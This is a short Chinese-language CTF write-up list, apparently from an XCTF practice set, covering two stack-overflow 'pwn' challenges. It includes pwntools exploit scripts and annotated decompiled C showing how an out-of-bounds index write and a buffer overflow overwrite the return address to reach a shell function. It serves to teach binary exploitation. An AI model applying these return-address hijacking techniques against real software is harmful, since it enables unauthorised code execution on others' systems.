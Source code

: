 偏移值是 0x84, 即栈底地址.

动态调试见 xctf_pwn_stack2.pdf。

# Write Up list

## overflow

### pwn1 长度溢出覆盖 ebp 输入数字覆盖返回地址

注意输入类型

```py
from pwn import *
sh = process('./pwn1')
elf = ELF('./pwn1')
addr = elf.symbols['shell_func']
sh.sendline(str(0x88+4))
sh.sendline(str(addr))
```

```c
void vuln()
{
  int rep_index; // [esp+8h] [ebp-90h]
  int i; // [esp+Ch] [ebp-8Ch]
  char arr_ch[128]; // [esp+10h] [ebp-88h]
                                       // 1. ebp - 88, ret位置为 88+4

  memset(arr_ch, 0, 0x80u);
  puts("id:");
  scanf("%d", &i);                     // 2. 输入i会作为数字, 不用转成二进制
  printf("you have input id:%d\n", i);
  printf("id's value(hex) is:%x\n", arr_ch[i]); // %x为16进制, 输入返回地址 覆盖ebp
  puts("replace:");
  scanf("%d", &rep_index);             // 3. 替换为shell_func的地址
  printf("the value has replace to:%x\n", rep_index);
  arr_ch[i] = rep_index;
}
```

### pwn2 长度溢出覆盖 ebp 输入数字转字符串覆盖返回地址

注意输入类型

```python
from pwn import *

file = './pwn2'

sh = process(file)
payload = 'a' * (0x80 - 0x10)
sh.sendline(flat(payload, pack(1500)))
sh.interactive()
```
